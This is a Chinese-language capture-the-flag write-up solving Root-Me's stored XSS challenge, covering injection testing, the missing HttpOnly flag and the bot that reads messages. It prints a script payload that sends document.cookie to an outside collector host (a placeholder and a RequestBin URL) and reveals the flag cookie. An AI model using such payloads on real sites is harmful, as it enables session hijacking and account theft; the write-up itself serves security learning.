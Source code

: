 ## [[Root-Me](https://www.root-me.org/)] [[Web-Client](https://www.root-me.org/en/Challenges/Web-Client/)] [[XSS - Stored 1](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)] [[解题报告](https://exp-blog.com/safe/ctf/rootme/web-client/xss-stored-1/)]

------

已经很直白提示是存储型 XSS 题型。

页面需要提交一个表单，在 Message 区测试注入一个 html 代码 `<img src=0 />`，提交后发现直接作为图片元素渲染。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B09%5D%20%5B30P%5D%20XSS%20-%20Stored%201/imgs/01.png)

打开浏览器的开发者工具查看，不难发现 Cookie 并没有标注 `HttpOnly` 属性，说明可以利用 `document.cookie` 发起 XSS 攻击。

多刷新几次页面，发现这台靶机后台有个机器人线程在定时读取我们提交的消息，当读取之后，该消息会被删掉，此时页面底部会提示 `Your messages have been read` 。

而我们要做的就是把 XSS 的 payloads 消息存储到后台，当机器人读取到这条消息时，就会把这个机器人的 Cookie 发送到我们的指定的一台服务器，实现 Cookie 窃取。

假设我们已经搭建了一台服务器 `${HOST}` ，那么可以在 Message 区构造一个这样的 payloads ：

`exp:<script>document.write("<img src=${HOST}?tk="+document.cookie+" />");</script>`

（注：此 payloads 建议直接在页面提交，若使用 Burp Suite 提交注意需要先把 `+` 编码成 `%2B` ，否则会导致服务器报错收不到消息）

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B09%5D%20%5B30P%5D%20XSS%20-%20Stored%201/imgs/02.png)

提交 payloads 消息后，就登录到 `${HOST}` 服务器守株待兔即可 (大概需要等5分钟)，只要机器人读取了这条消息，就能收到其 Cookie 。

对于这个 `${HOST}` 服务器，推荐使用 [RequestBin](https://requestbin.fullcontact.com/) 生成的临时 HTTP 服务器。例如你生成的 HTTP 服务的临时 URL 为 `http://requestbin.fullcontact.com/qnwgrmqn`，则把 payloads 修改为：

`exp:<script>document.write("<img src=http://requestbin.fullcontact.com/qnwgrmqn?tk="+document.cookie+" />");</script>`

当然你也可以选择自己实现一个 HTTP 服务器，但是必须有公网 IP。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B09%5D%20%5B30P%5D%20XSS%20-%20Stored%201/imgs/03.png)

最终收到的 Cookie 为：`ADMIN_COOKIE=NkI9qe4cdLIO2P7MIsWS8ofD6`，其值就是 flag，完成挑战。


![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B09%5D%20%5B30P%5D%20XSS%20-%20Stored%201/imgs/04.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
